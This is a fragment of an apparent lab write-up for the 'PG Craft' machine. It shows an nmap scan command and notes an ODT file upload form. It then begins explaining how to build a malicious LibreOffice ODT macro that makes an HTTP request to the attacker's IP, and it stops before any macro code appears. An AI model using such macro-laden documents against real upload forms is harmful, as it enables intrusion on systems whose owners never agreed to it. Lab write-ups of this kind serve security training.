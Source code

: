 # PG Craft
## ODT File Upload, xampp\htdocs
## nmap
```
nmap -Pn -sCV — open -p- — min-rate 10000 -oN nmap_open.txt 192.168.249.169
```
## Apache (80) 
```
ODT File Upload form
```
## Create the malicious ODT file
```
Open Libreoffice > Tools > Macros > Organize Macros > Basic
Click “Untitled 1” > “New” and name the file Offsec1 and click “OK”




between “Sub Main” and “End Sub” (which will perform an HTTP request to our IP). If we are hosting on port 80 and the port is open the command should execute:
```
